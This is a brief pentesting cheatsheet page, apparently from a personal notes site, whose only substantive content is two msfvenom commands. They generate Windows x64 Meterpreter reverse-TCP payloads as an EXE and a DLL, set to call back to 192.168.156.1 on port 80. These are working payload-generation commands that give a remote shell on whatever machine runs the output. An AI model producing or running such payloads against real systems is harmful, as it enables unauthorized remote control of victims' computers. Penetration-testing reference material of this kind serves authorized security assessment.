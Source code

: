 ```yaml
---
layout: post
title: Generating MSFVENOM payloads
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
nav_order: 2
has_children: true
modified_date: 2021-02-06
---
```


Generating payload with msfvenom either a dll or an executable file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```












